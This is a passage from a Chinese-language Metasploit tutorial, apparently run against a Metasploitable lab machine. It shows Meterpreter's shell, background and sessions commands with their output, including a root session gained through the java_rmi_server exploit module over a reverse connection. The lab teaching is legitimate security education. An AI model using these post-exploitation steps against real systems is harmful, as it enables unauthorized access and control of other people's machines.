 　　执行shell命令即可获得目标机器的shell，同样执行"ls /"可以得到目标机器的根目录:
```
meterpreter > shell
Process 1 created.
Channel 1 created.
ls /
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz


```
　　执行exit退出shell,还有很多丰富的命令见下一节内容。


Meterpreter命令详解
============

1 background,session

　　background命令将Meterpreter终端隐藏在后台,session命令可以查看已经成功获取的会话，如果想继续与某会话进行交互，可以使用“session -i”命令查看会话，之后使用“sessions ID”之后重新开启会话。

```
meterpreter > background
[*] Backgrounding session 2...
msf exploit(multi/misc/java_rmi_server) > sessions -i

Active sessions
===============

  Id  Name  Type                    Information            Connection
  --  ----  ----                    -----------            ----------
  2         meterpreter java/linux  root @ metasploitable  172.16.1.253:4444 -> 172.16.1.96:56079 (172.16.1.96)

msf exploit(multi/misc/java_rmi_server) > sessions 2
[*] Starting interaction with 2...

meterpreter > 
```
